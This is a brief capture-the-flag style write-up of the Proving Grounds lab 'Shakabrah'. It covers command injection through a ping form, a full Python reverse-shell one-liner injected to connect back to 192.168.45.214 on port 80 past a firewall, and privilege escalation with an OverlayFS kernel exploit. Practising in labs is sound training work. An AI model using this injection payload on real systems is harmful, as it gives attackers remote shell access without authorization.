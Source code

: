 * * *
 ### LAB: SHAKABRAH
 ### PLATFORM: PROVING GROUNDS
* * *

### Enumeration:
- Rustscan's details

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d4137a85-bd12-48cf-bdbe-8a90aefac3be)

- I did not fuzz for directories because the index page allows users to ping an ip address with the linux ping tool,I sensed that it
might be using the php `system() method`,we can use it to our advantage by closing the ping statement with a semicolon and executing a rev shell e.g `;ls`

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3eed71ac-bfa3-46e0-9237-d02570cd72a9)

- Popping a rev shell was bit tough because the server filters connectionn on other ports,I had to pop a shell through via port 80 to bypass the firewall restriction
 `;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.214",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`

- Now we have stabilizd rev shell

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/81c2962b-0f7a-4659-b513-264aa01e7c1e)

 ### PRIVESC

 -  I was able to escalate privileges with the Overlayfs kernel exploit because of the vulnerable Ubuntu version

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/05756031-0299-44c7-b6b0-09d64ce4cc95)

- Root access
  
